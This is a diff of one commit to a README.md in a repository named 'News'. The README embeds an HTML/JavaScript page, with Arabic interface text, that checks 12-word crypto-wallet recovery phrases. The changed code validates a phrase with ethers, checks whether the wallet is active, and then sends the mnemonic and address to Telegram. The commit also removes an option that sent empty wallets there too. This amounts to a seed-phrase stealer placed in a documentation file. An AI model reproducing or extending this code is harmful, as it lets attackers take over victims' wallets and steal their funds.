

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 89% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -91,24 +91,6 @@
             outline: none;
             border-color: #4facfe;
             box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
-        }
-
-        .checkbox-group {
-            display: flex;
-            align-items: center;
-            gap: 10px;
-            margin: 15px 0;
-        }
-
-        .checkbox-group input[type="checkbox"] {
-            width: 20px;
-            height: 20px;
-        }
-
-        .checkbox-group label {
-            margin: 0;
-            font-weight: 500;
-            color: #495057;
         }
 
         .button-group {
@@ -1172,8 +1161,22 @@
                 return;
             }
 
+            // التحقق من أن العبارة تحتوي على 12 كلمة
+            const words = mnemonic.split(' ');
+            if (words.length !== 12) {
+                updateStatus('عبارة الاسترجاع يجب أن تتكون من 12 كلمة', 'warning');
+                return;
+            }
+
             try {
                 if (!checkEthersLoaded()) {
+                    return;
+                }
+
+                // التحقق من صحة العبارة باستخدام ethers
+                if (!ethers.utils.isValidMnemonic(mnemonic)) {
+                    updateStatus('عبارة الاسترجاع غير صالحة', 'danger');
+                    addLogEntry('❌ عبارة الاسترجاع غير صالحة', 'error');
                     return;
                 }
 
@@ -1199,7 +1202,7 @@
                     updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
 
                     // إرسال المحفظة النشطة إلى Telegram
-                    const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, true);
+                    const telegramSent = await sendActiveWalletToTelegram(mnemonic, address, walletStatus);
                     if (telegramSent) {
                         addLogEntry('✅ تم إرسال المحفظة إلى Telegram بنجاح', 'success');
                     } else {
@@ -1208,17 +1211,6 @@
                 } else {
                     addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                     updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
-
-                    // إرسال المحفظة الفارغة إلى Telegram إذا كان الخيار مفعل
-                    const sendEmpty = elements.sendEmptyWallets.checked;
-                    if (sendEmpty) {
-                        const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, false);
-                        if (telegramSent) {
-                            addLogEntry('📭 تم إرسال المحفظة الفارغة إلى Telegram', 'info');
-                        } else {
-                            addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
-                        }
-                    }
                 }
 
                 // إعادة تعيين الزر
```
Also changed, not shown: other parts of README.md (+59 -57 lines).
